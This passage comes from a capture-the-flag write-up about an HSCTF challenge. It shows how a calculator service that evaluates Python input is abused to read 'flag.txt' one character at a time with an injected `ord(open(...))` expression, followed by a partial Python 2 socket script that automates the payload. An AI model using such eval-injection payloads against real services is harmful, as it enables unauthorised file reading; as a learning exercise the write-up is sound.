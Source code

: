 At this point the script will compute `FLAG_LENGTH ± 0`, printing out the actual flag length.

Now we are finally ready to read the flag!
We reconnect to the server and repeat the same procedure with a slightly different line of code:

`ord(open('flag.txt', 'r').readline()[n])`

It does pretty much the same thing as the one above, with the difference that this time we don’t need to get the whole string, so there’s no need to `strip()` it, and instead of calling `len()` we call `ord()` which returns the decimal value of the character at position n.

We still pass 0 and either `‘+’` or `’-’` to the next two inputs and we would get the decimal value of the Nth character of the flag.

All we have to do now is repeat this procedure for every character of the string.
It would take quite a lot of time to do that by hand, so i decided to automatize it with this simple script.

``` python
#!/usr/bin/python2
 
import socket
 
#Custom method to easily send the payload over the socket
def send(sock, payload):
    sent = False
 
    #Waiting for the first input request
    while not sent:
        data = sock.recv(1024)
        if "First" in data:
            #Sending the payload to the server
            sock.send(payload)
            sent = True
 
    sent = False
 
    #Waiting for the second input request
    while not sent:
        data = sock.recv(1024)
        if "Second" in data:
            #Sending 0 as second input
            sock.send("0\n")
            sent = True
 
    sent = False
 
    #Waiting for the third input request
    while not sent:
        data = sock.recv(1024)
        if "Operation" in data:
            #sending '+' as third input
            sock.send("+\n")
            sent = True
 
    #Waiting for the result to be calculated
    while "Sorry" not in data:
        data = s.recv(1024)
 
    #returning the result of the calculation
    return int(data[-4:-1])
 
if __name__ == "__main__":
 
    HOST = "misc.hsctf.com"
    PORT = 7001
```